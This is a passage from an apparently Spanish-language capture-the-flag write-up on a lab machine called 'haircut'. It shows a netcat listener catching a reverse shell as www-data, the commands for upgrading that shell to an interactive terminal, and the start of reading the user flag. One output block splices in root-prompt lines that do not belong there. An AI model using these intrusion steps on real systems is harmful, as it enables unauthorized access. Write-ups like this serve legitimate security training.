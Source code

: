 ![](body/e27a9dff58c6652847272d93cd87fea83b17366b.png)

Obtenemos acceso al sistema:

```bash
$ nc -lvnp 443

listening on [any] 443 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.105.250] 40602
bash: cannot set terminal process group (1430): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haircut:~/html/uploads$ whoami
whoami
www-data
www-data@haircut:~/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haircut:~/html/uploads$
```

Realizamos tratamiento para shell interactiva:

```bash
www-data@haircut:~/html/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null

Control + Z
ssty raw -echo; fg
reset
xterm

www-data@haircut:~/html/uploads$ export SHELL=bash
www-data@haircut:~/html/uploads$ export TERM=xterm-256color
www-data@haircut:~/html/uploads$ stty rows 70 columns 253
```

## Enumeración del sistema

### User Flag

Podemos visualizar la flag siendo usuario www-data, ya que tenemos permisos de lectura para "Otros":

```bash
www-data@haircut:/home/maria/Desktop$ ls -l user.txt 
-r--r--r-- 1 root root 34 May 16  2017 user.txtroot@haircut:/root# wc -c root.txt 
33 root.txt
www-data@haircut:/home/maria/Desktop$ wc -c user.txt 
34 user.txt
```

Enumeramos los usuarios que existen a nivel de sistema que tengan acceso a terminal sh:
